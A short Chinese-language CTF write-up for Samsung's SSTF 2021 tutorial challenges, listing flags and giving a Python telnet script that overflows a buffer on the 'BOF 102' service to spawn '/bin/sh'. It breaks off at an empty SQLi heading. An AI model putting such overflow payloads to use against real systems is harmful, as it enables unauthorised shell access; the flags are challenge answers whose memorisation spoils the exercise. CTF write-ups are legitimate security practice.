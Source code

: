 ```yaml
---
title: "SSCTF2021 Wp"
slug: "ssctf2021-wp"
description: "时隔大半个月之后的复现 总之就是非常非常菜"
date: 2021-09-05T11:09:54+08:00
categories: ["CTF"]
series: []
tags: ["wp"]
draft: false
toc: true
---
```


https://research.samsung.com/sstf

https://playground.sstf.site/challenges

## Tutorial/Practice: Flag Submission

`SCTF{It_15_tim3_t0_hack!!}`

## Tutorial/BOF 101

https://onedrive.live.com/embed?resid=F7E83213DDD289C7%212261&authkey=%21AO4uYzudT40Rn_Y&em=2

![image-20210816204446737](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210816204446737.png)

`SCTF{n0w_U_R_B0F_3xpEr7}`

## Tutorial/BOF 102

https://onedrive.live.com/embed?resid=F7E83213DDD289C7%212251&authkey=%21AMhDJ94NiXLWqYs&em=2

```python
from telnetlib import Telnet

tn = Telnet("bof102.sstf.site", 1337)
tn.read_until(b"Name > ")
tn.write(b"/bin/sh" + b"\n")
payload = b'A'*20
payload += b'\xe0\x83\x04\x08'
payload += b'C'*4
payload += b'\x34\xa0\x04\x08'

tn.read_until(b" > ")
tn.write(payload + b'\n')
tn.interact()
```

`SCTF{B0F_A774ck_w1Th_arg5_1n_x86}`

## Tutorial/SQLi 101

